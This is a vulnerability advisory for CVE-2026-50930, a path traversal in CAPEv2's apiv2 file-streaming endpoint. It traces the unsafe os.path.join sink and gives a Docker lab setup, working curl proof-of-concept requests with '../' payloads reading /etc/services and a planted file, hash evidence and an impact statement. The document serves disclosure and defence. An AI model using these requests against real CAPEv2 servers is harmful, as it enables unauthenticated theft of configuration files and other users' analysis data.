



# CVE-2026-50930 — Path Traversal in CAPEv2 apiv2 `tasks_file_stream` local file streaming

[CVE ID]
CVE-2026-50930

[PRODUCT]
kevoreilly/CAPEv2 — CAPE Sandbox (the pinned source's README expands CAPE as “Malware Configuration And Payload Extraction”), a malware analysis and reporting framework including a Django web/API frontend.

[VERSION]
`23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4` (upstream commit, "v2.5" per API response header)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`)

## Description

The Django REST view `tasks_file_stream` in `web/apiv2/views.py` (routed as `POST /apiv2/tasks/get/stream/<task_id>/`, see `web/apiv2/urls.py:46`) accepts an attacker-controlled JSON body field `filepath` and a flag `is_local`. When `is_local` is truthy, the handler only rejects values that *start with* `/` and then builds the read path with `os.path.join(CUCKOO_ROOT, "storage", "analyses", f"{task_id}", filepath)`. `os.path.join` does not neutralize `..` segments, so a `filepath` such as `../../../../etc/services` escapes the intended per-task analysis directory. The joined path only has to pass `os.path.isfile()` before it is handed to `_stream_iterator`, whose `open(fp, "rb")` reads the file in 1024-byte chunks and streams the content back in the HTTP response (`application/octet-stream`). There is no canonicalization or containment (base-directory) check anywhere on this path.

Reachability gates: the `taskstatus` API must be enabled (it is by default), the referenced task must exist, and the task's guest machine must have status `running` — the normal state of any analysis that is currently executing. In the default configuration `api.token_auth_enabled = False`, so no API token is required to reach the endpoint.

Vulnerable code: <https://github.com/kevoreilly/CAPEv2/blob/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4/web/apiv2/views.py#L2600-L2608> (sink `open()` at [L2568-L2575](https://github.com/kevoreilly/CAPEv2/blob/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4/web/apiv2/views.py#L2568-L2575), route at [web/apiv2/urls.py#L46](https://github.com/kevoreilly/CAPEv2/blob/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4/web/apiv2/urls.py#L46))

## Proof of Concept

### Victim setup

Built from the pinned upstream commit with a minimal image that boots only CAPE's web/API layer (no VMs), per the case runbook:

```bash
curl -fsSL --retry 5 --retry-all-errors -o CAPEv2.tar.gz \
  https://codeload.github.com/kevoreilly/CAPEv2/tar.gz/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4
tar -xzf CAPEv2.tar.gz && mv CAPEv2-23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4 CAPEv2 && cd CAPEv2

cat > Dockerfile.scdd <<'DOCKER'
FROM python:3.11-slim-bookworm
ENV PYTHONUNBUFFERED=1
WORKDIR /app
COPY . /app
RUN apt-get update \
  && DEBIAN_FRONTEND=noninteractive apt-get install -y --no-install-recommends \
    build-essential ca-certificates curl libmagic1 libmagic-dev libjpeg62-turbo-dev zlib1g-dev \
  && rm -rf /var/lib/apt/lists/*
RUN pip install --no-cache-dir --upgrade pip setuptools wheel \
  && pip install --no-cache-dir -r requirements.txt
RUN mkdir -p /app/storage /app/log /app/custom/conf \
  && chmod -R 777 /app/storage /app/log /app/custom
RUN useradd -m -u 1000 cape \
  && chown -R cape:cape /app
USER cape
EXPOSE 8000
CMD ["bash","-lc","set -euo pipefail; cd /app/web; python manage.py migrate --noinput; exec gunicorn web.wsgi:application -b 0.0.0.0:8000 --workers 1 --threads 4 --timeout 120"]
DOCKER

docker build -t scdd-capev2:23d3a2c -f Dockerfile.scdd .
docker run -d --name scdd_50930_cape -p 38321:8000 scdd-capev2:23d3a2c
```

The endpoint's runtime preconditions (task exists with a `running` guest machine, `storage/analyses/<task_id>/` exists) are satisfied by seeding minimal DB records via `docker exec` (`init_database` + `add_path`/`add_machine`/`create_guest`), exactly as in the runbook — no source code is modified.



### Attack steps

Plain HTTP POST from the attacker to the API (no token needed with default `token_auth_enabled = False`):

```bash
# arbitrary read #1: OS file outside the analyses tree
curl -sS -X POST -H 'Content-Type: application/json' \
  --data '{"filepath":"../../../../etc/services","is_local":"1"}' \
  http://127.0.0.1:38321/apiv2/tasks/get/stream/1/ --max-time 8 | head -c 1024 > cape_stream_prefix.bin

# arbitrary read #2: marker file planted at /tmp (outside the intended base dir)
curl -sS -X POST -H 'Content-Type: application/json' \
  --data '{"filepath":"../../../../tmp/cve50930_marker.txt","is_local":"1"}' \
  http://127.0.0.1:38321/apiv2/tasks/get/stream/1/ --max-time 8 | head -c 256 > cape_marker.bin

# control: identical request WITHOUT is_local -> non-local branch, no local file read
curl -sS -X POST -H 'Content-Type: application/json' \
  --data '{"filepath":"../../../../etc/services"}' \
  http://127.0.0.1:38321/apiv2/tasks/get/stream/1/ --max-time 8
```



### Evidence

Traversal request answered `HTTP/1.1 200 OK`, `Content-Type: application/octet-stream`, `X-Cuckoo-Version: 2.5`, streaming `/etc/services` out of the container — 12,813 bytes had been received when the 8-second capture window closed (curl exit 28; the streaming response stays open while the machine is `running`), and the first bytes visibly start with `# Network services, Internet style`. The byte-for-byte comparison below covers the first 1,024 bytes (in-container ground truth via `docker exec`):

```
$ sha256sum cape_stream_prefix.bin expected_services.bin
bc634b56d25379fbeb867bafc5fe553a82f20f4bb007f1050c532aeccbde5ae3  cape_stream_prefix.bin   (HTTP response)
bc634b56d25379fbeb867bafc5fe553a82f20f4bb007f1050c532aeccbde5ae3  expected_services.bin   (docker exec)
MATCH: HTTP traversal response (1024B) is byte-identical to container /etc/services

$ sha256sum cape_marker.bin expected_marker.bin
ac451e17b227b1799d31f3a737251a3c393cc0c2af48ee011673affb770b5708  cape_marker.bin
ac451e17b227b1799d31f3a737251a3c393cc0c2af48ee011673affb770b5708  expected_marker.bin
MATCH: HTTP traversal response returns the planted marker file verbatim   -> CVE50930_MARKER_SECRET=7091e2ff0c0b43f1
```

Control without `is_local` returned 0 bytes of file content (the non-local branch proxies to the analysis guest instead), confirming the traversal is specific to the `is_local=1` local branch. Full session: `evidence/transcript.txt`, excerpts: `evidence/key_evidence.txt`.



## Impact

A remote attacker with network access to the CAPEv2 API obtains an **arbitrary file read** primitive against the server (container) filesystem: any file readable by the `cape` service user can be streamed back verbatim (`../` chains are unrestricted once the path does not start with `/`). This includes configuration files, analysis results of other users' tasks, and OS files — demonstrated on `/etc/services` (12,813 bytes received within the capture window; first 1,024 bytes verified byte-identical) and on a file planted at `/tmp` (returned verbatim in full, 40/40 bytes, SHA-256 match).

Preconditions and boundaries (factual, from the case's 影响边界): (1) network reachability of the API is required — with the shipped default `api.token_auth_enabled = False` no API token is needed; (2) the `taskstatus` API must be enabled (default); (3) the referenced task must exist with its guest machine in `running` status, i.e. the normal state of any in-flight analysis (an attacker can simply use any currently running task's ID); (4) the read is limited to files readable by the service account, and the target path must resolve via `os.path.isfile()`. The response is a streaming response that stays open while the machine is `running`, but content is delivered immediately in 1024-byte chunks. No write or code-execution primitive is implied.

## Occurrences

- `web/apiv2/views.py:2604` — vulnerable sink: `filepath = os.path.join(CUCKOO_ROOT, "storage", "analyses", f"{task_id}", filepath)` with attacker-controlled `filepath`, no `..`/containment check
- `web/apiv2/views.py:2601-2603` — the only guard on `filepath`: rejects a leading `/` (or `\/`), which `../` trivially bypasses
- `web/apiv2/views.py:2600` — `is_local` state gate selecting the vulnerable local-read branch
- `web/apiv2/views.py:2574` — `open(fp, "rb")` inside `_stream_iterator` reads the escaped path and yields it to the HTTP response
- `web/apiv2/urls.py:46` — route `^tasks/get/stream/(?P<task_id>\d+)/$` → `views.tasks_file_stream`

## References

- [CVE-2026-50930](https://www.cve.org/CVERecord?id=CVE-2026-50930)
- [kevoreilly/CAPEv2](https://github.com/kevoreilly/CAPEv2) — vulnerable file [web/apiv2/views.py @ 23d3a2c](https://github.com/kevoreilly/CAPEv2/blob/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4/web/apiv2/views.py#L2565-L2612)
